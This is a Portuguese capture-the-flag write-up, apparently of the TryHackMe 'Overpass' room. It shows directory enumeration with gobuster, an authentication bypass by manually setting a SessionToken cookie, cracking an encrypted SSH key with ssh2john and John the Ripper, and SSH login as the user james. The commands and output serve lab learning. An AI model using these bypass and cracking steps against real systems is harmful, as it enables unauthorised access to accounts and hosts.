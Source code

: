 Vamos rodar o gobuster para ver o que encontramos
> gobuster dir -u http://overpassthm -w /usr/share/wordlists/dirb/common.txt
```gobuster
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
```

Encontramos uma pasta admnistrativa. Temos um formulário mas nenhuma pista sobre credenciais, brute force não é a solução, conforme mencionado na dica.

Olhando o código fonte conseguimos localizar o código de login `(login.js)` e encontramos um trecho interessante aqui:
```login
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

Vamos sentar setar o cookie manualmente pelo console `Cookies.Set("SessionToken", "value");`.

Agora temos acesso a página e encontramos as seguintes informações:
- Chave SSH ENCRYPTED;
- Nome de usuário `james`.

### SSH
Como a chave esta encriptada, a solução é quebrar tudo. Vamos usar `ssh2john.py` para gerar a hash
> python3 /usr/share/john/ssh2john.py james.key > james.hash

E `John the Ripper` com o rockyou.txt para quebrar essa hash
> john james.hash --wordlist=~/Documents/rockyou.txt
```john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*******          (james.key)
1g 0:00:00:00 DONE (2022-02-10 08:14) 16.66g/s 222933p/s 222933c/s 222933C/s lisa..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Agora com a senha em mãos, podemos fazer login no sistema
> sudo chmod 600 james.key
> ssh -i james.key james@overpassthm
